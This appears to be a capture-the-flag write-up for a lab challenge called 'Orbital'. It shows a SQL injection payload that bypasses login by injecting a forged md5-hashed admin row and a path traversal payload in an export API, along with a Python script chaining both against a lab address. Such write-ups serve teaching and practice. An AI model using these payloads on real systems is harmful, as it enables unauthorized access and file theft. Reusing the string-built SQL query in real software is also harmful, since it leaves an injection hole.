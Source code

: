 ## Orbital :: Easy
#### Scenario 

```
 Orbital
 In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?
```

#### Solve
##### Auth bypass

This challenge builds on the basics of SQL Injection explored in the `Drobots` challenge.
It is another case of login bypass, with a much more interesting payload.

The login logic for the application is the following:

```python
def login(username, password):
    # I don't think it's not possible to bypass login because I'm verifying the password later.
    user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)

    if user:
        passwordCheck = passwordVerify(user['password'], password)

        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```

In a query like this, you could use UNION to include a hand crafted row.
This way you can provide a username and the hashed password of your choice.

The application will internally use these values when comparing the provided password with the hashed one, provided in the injection.

```python
user = query(f'SELECT username, password FROM users WHERE username = "{username}"', one=True)
```

We can see that the application uses the `md5` algorithm to hash the passwords before storage.
This is in the `util.py:passwordVerify` function.
```python
def passwordVerify(hashPassword, password):
    md5Hash = hashlib.md5(password.encode())

    if md5Hash.hexdigest() == hashPassword: return True
    else: return False
```

This means that we have to provide the password hashed with `md5` in our payload.

Payload:
```
owned" UNION SELECT "admin","21232f297a57a5a743894a0e4a801fc3" FROM users;#
```

`admin`: is the target user
`21232f297a57a5a743894a0e4a801fc3`: is the md5 hash of "admin"

When logging in we provide the injection in the username input and the password 'admin' in the password input.

Here is the resulting query executing on the database:

```sql
SELECT username, password FROM users WHERE username = "owned" UNION SELECT "admin", "21232f297a57a5a743894a0e4a801fc3" FROM users;#"
```

When executing, the database will not return results for the `owned` username, which means it will use our specified row.

![](/images/orbital_login.png)

We are then logged into a dashboard:

![](/images/orbital_dashboard.png)

##### LFI in export function

In this dashboard, there is an export function for various communications.

![](/images/orbital_export.png)

The application has an export api that relatively includes an mp3 file.
This file is then downloaded.

By using path traversal, we can traverse the filesystem back to the root directory to include our target `signal_sleuth_firmware`.

![](/images/orbital_export_request.png)

With the following payload:
```json
{
    "name":"../../../../../../../../../../../signal_sleuth_firmware"
}
```

Once we obtain this file, it contains the flag !

#### Script
```python
#!/usr/bin/env python3
import requests

TARGET = "http://10.18.232.1:1337"
LOGIN_ENDPOINT = "/api/login"
EXPORT_ENDPOINT = "/api/export"
PAYLOAD = "owned\" UNION SELECT \"admin\",\"21232f297a57a5a743894a0e4a801fc3\" FROM users;#"
FLAG_LFI_PAYLOAD = {"name": "../../../../../../../../../../../signal_sleuth_firmware"}

if __name__ == "__main__":
    print("[*] BYPASSING LOGIN")
    s = requests.Session()
    s.post(TARGET + LOGIN_ENDPOINT,
                  json={"username": PAYLOAD, "password": "admin"})

    print("[*] Using Path Traversal + LFI to include flag")
    flag = s.post(TARGET + EXPORT_ENDPOINT, json=FLAG_LFI_PAYLOAD)
    print(flag.text)
```

This script will chain the exploits and print the flag.


